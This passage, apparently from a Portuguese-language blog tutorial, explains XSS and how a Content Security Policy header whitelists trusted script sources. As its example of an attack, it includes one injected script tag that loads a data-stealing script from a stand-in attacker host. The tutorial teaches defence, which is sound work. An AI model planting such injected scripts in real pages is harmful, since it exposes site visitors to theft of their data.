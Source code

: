 <body> <h1>Content Security Policy</h1>

<script src="https://code.jquery.com/jquery-3.1.1.min.js"></script> <script src="js/painel.js"></script> </body> </html> \[/code\]

Repare no código anterior que a página possui quatro recursos, sendo que dois deles são arquivos CSS e os outros dois são arquivos JavaScript.

Por padrão, sempre que acessamos uma página HTML em um browser, ele automaticamente baixa e executa **todos** os recursos que estiverem declarados nela, pois considera que são necessários para o correto funcionamento da página.

É justamente aí que mora o perigo, pois se a aplicação estiver vulnerável ao ataque XSS, um hacker poderá injetar nela um código JavaScript malicioso que também será baixado e executado pelo browser.

Por exemplo, um hacker poderia injetar o seguinte código JavaScript malicioso na página anterior:

\[code language="html"\] <script src="http://sitedohacker.com/scriptParaRoubarDados.js"></script> \[/code\]

E com isso quando qualquer usuário entrasse nela, seu browser também baixaria e executaria esse código JavaScript.

O problema é que o browser não consegue sozinho distinguir os endereços que são seguros para baixar os recursos, dos que não são.

Seria legal se pudéssemos indicar ao browser que os endereços _maxcdn.bootstrapcdn.com_ e _code.jquery.com_ são seguros e que ele pode baixar normalmente os recursos de lá, e que o endereço _sitedohacker.com_ é perigoso, devendo ser bloqueado.

Essa é justamente a ideia da especificação Content Security Policy.

## Content Security Policy

A Content Security Policy é uma especificação focada em proteger aplicações Web contra os **efeitos** de ataques de injeção de conteúdo, sendo o XSS o principal deles.

Seu funcionamento consiste em fornecer ao browser, por meio de um header HTTP, uma [whitelist](http://searchsecurity.techtarget.com/definition/application-whitelisting) contendo os endereços que são considerados seguros pela aplicação, dos quais ele poderá baixar e executar os recursos necessitados por ela.

Para utilizar a CSP devemos alterar o código de nossa aplicação, fazendo com que o servidor devolva nas repostas HTTP o header que define as restrições de segurança.

Veja um exemplo de como esse header pode ser definido:

\[code language="html"\] Content-Security-Policy: default-src 'self'; script-src 'self' https://code.jquery.com; \[/code\]

Repare que o nome do header que define a CSP deve ser **Content-Security-Policy**. Em alguns browsers, em especial em versões mais antigas, o nome do header pode ser diferente. Por exemplo, nas versões 10 e 11 do Internet Explorer o header deve se chamar _X-Content-Security-Policy_.

Repare também que o header recebe como valor uma lista contendo as **diretivas** de segurança, que são separadas por um sinal de ponto-e-virgula(;), sendo que cada uma delas pode receber vários valores distintos, que devem ser separados pelo caractere de espaço.

Cada diretiva trata um tipo de recurso em específico, tais como imagem, CSS, JavaScript, etc., e nelas devemos informar os endereços que são considerados seguros pela aplicação.
